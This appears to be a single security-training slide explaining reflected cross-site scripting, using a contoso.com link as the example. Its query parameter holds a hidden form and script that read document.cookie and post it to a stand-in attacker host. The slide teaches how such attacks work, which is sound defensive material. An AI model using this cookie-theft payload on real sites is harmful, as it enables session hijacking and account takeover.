

# XSS Using Dynamic HTML Script
Vulnerable site
<a href=http://www.contoso.com/req.asp?name=
  <FORM action=http://www.badsite-sample-13.com/data.asp
       method=post id="idForm">
       <INPUT name="cookie" type="hidden">
  </FORM>
  <SCRIPT>
    idForm.cookie.value=document.cookie;
    idForm.submit();
  </SCRIPT> >
Click here!
</a>
How does this attack work?
Malicious Input!
7